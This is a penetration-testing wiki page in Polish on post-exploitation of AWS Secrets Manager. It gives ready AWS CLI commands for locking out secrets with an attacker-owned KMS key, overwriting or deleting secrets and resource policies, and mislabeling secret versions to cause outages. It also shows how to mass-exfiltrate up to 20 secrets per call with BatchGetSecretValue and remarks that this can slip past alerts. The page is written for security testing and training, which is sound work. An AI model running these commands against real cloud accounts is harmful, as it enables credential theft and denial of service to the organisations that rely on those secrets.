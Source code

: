 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Aby uzyskać więcej informacji, sprawdź:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Odczyt sekretów

Sekrety są informacjami wrażliwymi, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) aby dowiedzieć się, jak je odczytać.

### DoS Change Secret Value

Zmieniając wartość sekretu, możesz spowodować **DoS wszystkich systemów zależnych od tej wartości.**

> [!WARNING]
> Należy pamiętać, że poprzednie wartości są również przechowywane, więc łatwo jest po prostu wrócić do poprzedniej wartości.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Jeśli attacker ma uprawnienie secretsmanager:UpdateSecret, może skonfigurować secret tak, aby używał KMS key należącego do attacker. Ten klucz jest początkowo ustawiony w taki sposób, że każdy może uzyskać do niego dostęp i go używać, więc aktualizacja secret z nowym kluczem jest możliwa. Gdyby klucz nie był dostępny, secret nie mógłby zostać zaktualizowany.

Po zmianie klucza dla secret attacker modyfikuje konfigurację swojego klucza tak, aby tylko on mógł mieć do niego dostęp. W ten sposób w kolejnych wersjach secret będzie szyfrowany nowym kluczem, a ponieważ nie ma do niego dostępu, możliwość odzyskania secret zostanie utracona.

Ważne jest, aby pamiętać, że ta niedostępność wystąpi tylko w późniejszych wersjach, po zmianie zawartości secret, ponieważ bieżąca wersja nadal jest zaszyfrowana oryginalnym KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Usuwanie sekretu

Minimalna liczba dni potrzebna do usunięcia sekretu to 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Możliwe jest przywrócenie sekretu, co umożliwia odzyskanie sekretów zaplanowanych do usunięcia, ponieważ minimalny okres usuwania sekretów wynosi 7 dni, a maksymalny 30 dni. W połączeniu z uprawnieniem secretsmanager:GetSecretValue, pozwala to na odzyskanie ich zawartości.

Aby odzyskać sekret, który jest w trakcie usuwania, możesz użyć następującego polecenia:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ta akcja pozwala na usunięcie polityki zasobu, która kontroluje, kto może uzyskać dostęp do sekretu. Może to doprowadzić do DoS, jeśli polityka zasobu była skonfigurowana tak, aby umożliwić dostęp określonej grupie użytkowników.

Aby usunąć politykę zasobu:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Stany sekretu służą do zarządzania wersjami sekretu. AWSCURRENT oznacza aktywną wersję używaną przez aplikacje, AWSPREVIOUS przechowuje poprzednią wersję, aby można było przywrócić ją w razie potrzeby, a AWSPENDING jest używany w procesie rotacji do przygotowania i walidacji nowej wersji przed ustaleniem jej jako obecnej.

Aplikacje zawsze odczytują wersję oznaczoną jako AWSCURRENT. Jeśli ktoś przeniesie tę etykietę na niewłaściwą wersję, aplikacje będą używać nieprawidłowych danych uwierzytelniających i mogą zawieść.

AWSPREVIOUS nie jest używane automatycznie. Jednak jeśli AWSCURRENT zostanie usunięte lub błędnie przypisane, może się wydawać, że wszystko nadal działa na poprzedniej wersji.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}

### Mass Secret Exfiltration via BatchGetSecretValue (do 20 na wywołanie)

Wykorzystaj API Secrets Manager BatchGetSecretValue, aby pobrać do 20 sekretów w jednym żądaniu. To może znacząco zmniejszyć liczbę wywołań API w porównaniu z iterowaniem GetSecretValue dla każdego sekretu. Jeśli używane są filtry (tags/name), wymagane jest również uprawnienie ListSecrets. CloudTrail nadal rejestruje jedno zdarzenie GetSecretValue dla każdego sekretu pobranego w partii.

Wymagane uprawnienia
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue dla każdego docelowego sekretu
- secretsmanager:ListSecrets jeśli używasz --filters
- kms:Decrypt na CMKach używanych przez sekrety (jeśli nie używasz aws/secretsmanager)

> [!WARNING]
> Zwróć uwagę, że uprawnienie `secretsmanager:BatchGetSecretValue` samo w sobie nie wystarcza do pobrania sekretów — potrzebujesz także `secretsmanager:GetSecretValue` dla każdego sekretu, który chcesz pobrać.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate przez filtry (tag key/value lub name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Obsługa częściowych awarii
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Wpływ
- Szybki “smash-and-grab” wielu sekretów przy mniejszej liczbie wywołań API, potencjalnie omijający alerty dostrojone do skoków GetSecretValue.
- Logi CloudTrail nadal zawierają jedno zdarzenie GetSecretValue na każdy sekret pobrany w tej partii.

